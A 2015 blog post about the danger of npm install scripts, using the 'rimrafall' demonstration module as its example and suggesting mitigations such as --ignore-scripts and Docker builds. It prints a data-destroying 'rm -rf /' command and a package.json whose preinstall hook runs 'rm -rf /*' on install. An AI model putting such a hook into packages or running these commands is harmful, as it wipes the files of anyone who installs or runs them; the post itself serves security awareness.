 ```yaml
---
title: npm install - could be dangerous
author: chris
date: 2015-05-09
template: article.jade
---
```


[NPM](https://www.npmjs.com/) hosts about 144,000 npm modules on their registry. Over one million modules are downloaded per month. Assume you use one module that includes a major flaw in their implementation? Will you detect it?

## What is going on?

Just recently, [João Jerónimo](https://github.com/joaojeronimo) published a special npm modules called [rimrafall](https://github.com/joaojeronimo/rimrafall). He published it at npm and posted it on [Hacker News](https://news.ycombinator.com/item?id=8947493). Essentially this module does the following:

    sudo su -
    rm -rf /

It uses a special script tag in `package.json` to run a prescript. Commonly it is used to build native code, but still can be used to do anything that bash can.

The package.json looks as follows:

    {
      "name": "rimrafall",
      "version": "1.0.0",
      "description": "rm -rf /* # DO NOT INSTALL THIS",
      "main": "index.js",
      "scripts": {
        "preinstall": "rm -rf /*"
      },
      "keywords": [
        "rimraf",
        "rmrf"
      ],
      "author": "João Jerónimo",
      "license": "ISC"
    }

## Risk

Once you just install this module, your computer is shredded. Do you verify all your dependencies for malicious scripts? In most cases you do not. This is especially dangerous if this runs on your production server or CI server.

Although there is no easy mitigation, you could start building all your node code in a Docker container or use `npm install --ignore-scripts`. If you integrate 3rd-party modules, have a look at their source code, especially if it is a new module.

See also:

 * [Encrypt and decrypt content with Nodejs](http://lollyrock.com/articles/nodejs-encryption/)
 * [SHA 512 Hashs with nodejs](http://lollyrock.com/articles/nodejs-sha512/)
 * [Simple file uploads with Express 4](http://lollyrock.com/articles/express4-file-upload/)
 * [Applied Content Security Policy for Nginx and Nodejs](http://lollyrock.com/articles/content-security-policy/)
 * [Ready for ES6?](http://arlimus.github.io/articles/ready.for.es6/)


